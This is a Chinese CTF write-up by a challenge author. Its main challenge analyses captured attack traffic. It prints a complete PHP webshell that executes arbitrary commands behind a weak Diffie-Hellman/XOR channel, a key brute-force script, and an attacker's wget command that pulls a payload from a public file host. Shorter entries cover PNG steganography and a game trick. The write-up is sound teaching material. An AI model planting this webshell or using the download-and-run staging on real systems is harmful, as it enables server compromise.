

Misc¶
APU的犯罪证据¶
出题壬临时起意，弄了个简单地缝合了misc,crypto,re,web的题目。本题的背景是模拟黑客入侵过程中的流量，有一定的实际意义(自卖自夸ing)。
首先下载流量包，弄个http的过滤参数，看到一堆http包
 接着点开那个POST包，发现是上传webshell
接着点开那个POST包，发现是上传webshell
 就可以发现webshell长这样
就可以发现webshell长这样
<?php session_start(); function fastpow($a,$b,$c) { if($b==0) return 1; $res=fastpow($a,intval($b/2),$c); if($b%2) return $res*$res*$a%$c; return $res*$res%$c; } if(!isset($_SESSION['p'])) { $_SESSION['p']=rand(1, 255); $_SESSION['.']=rand(5,10); $_SESSION['ra']=rand(50, 100); $Sa=fastpow($_SESSION['.'],$_SESSION['ra'],$_SESSION['p']); printf("%d,%d,%d",$_SESSION['p'],$_SESSION['.'],$Sa); die(); } if(!isset($_SESSION['key'])) { $_SESSION['key']=fastpow($_GET['sb'],$_SESSION['ra'],$_SESSION['p']); die(); } $code=$_REQUEST['code']; $cmd=''; for($i=0;$i<strlen($_REQUEST['code']);$i++) { $cmd.=chr(ord($_REQUEST['code'][$i]) ^ $_SESSION['key']); } ob_start(); system($cmd); $res=ob_get_contents(); ob_end_clean(); for($i=0;$i<strlen($res);$i++) { echo chr(ord($res[$i]) ^ $_SESSION['key']); }
这个webshell也是出题壬临时起意写的，上午做觅马学作业来的灵感。
这个webshell使用了diffie-hellman密钥交换协议，使得被动监听者无法直接拿到流量。但是密钥过弱，是1-255，非常容易爆破 编写脚本进行爆破
import urllib.parse cipher=urllib.parse.unquote('ez%7Ds%7F%7B') def xor(i): return ''.join([chr(ord(c)^i) for c in cipher ]) for i in range(1,256): print(i) print(xor(i))
过程不截图了，i为18的时候结果是whoami，所以密钥为18，这样就可以解密所有流量了。
接着可以在流量里面发现攻击者用webshell执行了一个命令
wget "http://pan-yz.chaoxing.com/download/downloadfile?fleid=471314960076619776&puid=117048149" -U "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0" -O a
让受控机从超星服务器上面下载一个文件，然后执行。注意，这在真实的入侵中也是一种常见的手段，攻击者往往会采取各种公开的基础设施来托管自己的恶意代码，从而绕过一些基于黑名单防护的流量监控设备,实现隐藏自身的目的
(由于出题壬的失误,这个URL也可以直接在流量包里面找到,我错了我自裁)
好的,我们从这个URL下载文件,然后拖入IDA,发现就是读取flag,编码后输出
 跟进这个encode_string函数
跟进这个encode_string函数
 发现是个变种base64加密,密码表在chlist里面
(很诚实地讲,出题壬在出题的时候联系了@Minhal 来写这个程序,至于该怎么看出这是base64,坦白来说,作为一个web🐕我也不知道)
点开chlist查看密码表
发现是个变种base64加密,密码表在chlist里面
(很诚实地讲,出题壬在出题的时候联系了@Minhal 来写这个程序,至于该怎么看出这是base64,坦白来说,作为一个web🐕我也不知道)
点开chlist查看密码表

接着根据流量里面的对应内容编写解密脚本 (该脚本由@lcx贡献,感谢他)
s = 'NOPQRSABCDEFGHIa23156bcdefgJKLMT7894VWXYZhijklmnopqrstuvwxyz0+/' dest = 'KuHtev3XMu8WJW+ZfcxTecS8ecS8ecS8ecS8ecS8ecS8edsE' i = 0 flag = '' while i < len(dest): temp = s.index(dest[i]) << (6 * 3) temp += (s.index(dest[i + 1]) << (6 * 2)) temp += (s.index(dest[i + 2]) << (6 * 1)) temp += (s.index(dest[i + 3]) << (6 * 0)) flag += chr((temp >> 16) & 0xff) flag += chr((temp >> 8) & 0xff) flag += chr(temp & 0xff) i += 4 print(flag)
运行出flag
专业团队¶
我才不会告诉你们是出题人选错了压缩算法才让这个题这么简单
原本的想法¶
PNG文件的IDAT块的大小是固定的，从上往下除了最后一个IDAT块可能比较小，其它应该都是一样大的。但是这个文件里的倒数第二个IDAT块大小不对，应该有隐藏信息

大家的解法¶
直接binwalk出gz压缩包，解压获得flag
假的签到¶
/gamemode 3进观察者模式，就能看到地下的空洞（还插着火把）